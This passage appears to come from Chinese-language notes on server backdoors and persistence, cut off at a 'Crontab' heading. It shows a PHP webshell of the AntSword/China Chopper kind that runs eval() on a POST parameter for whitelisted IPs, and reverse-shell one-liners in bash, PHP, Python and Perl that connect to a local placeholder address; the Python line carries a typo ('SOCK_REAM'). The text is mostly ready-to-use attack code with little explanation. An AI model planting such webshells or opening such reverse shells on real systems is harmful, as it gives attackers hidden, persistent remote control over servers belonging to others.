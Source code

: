 
## 2. 蚁剑及菜刀型后门

```php
<?php
$white_ip_list = array(
    '127.0.0.1',
    "::1"
);
$ip = $_SERVER['REMOTE_ADDR'];
if(count($white_ip_list)>0) {
    if (in_array($ip, $white_ip_list)) {
        $a = $_POST['moxiaoxi'];
        if (isset($a)) {
            eval($a);
        }
    }else{
        echo('IP:'.$ip);
    }
}
```

用以连接后，以Gui方式运维。

## 3. 反弹shell

在bash下可以运行： 

```bash
bash -i >& /dev/tcp/127.0.0.1/4444 0>&1
```

 使用php：

```bash
php -r '$sock=fsockopen("127.0.0.1","4444");exec("/bin/sh -i <&3 >&3 2>&3");'
```

使用python:

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_REAM);s.connect(("127.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

使用perl：

```perl
perl -e 'use Socket;$i="127.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```



## 4. Crontab
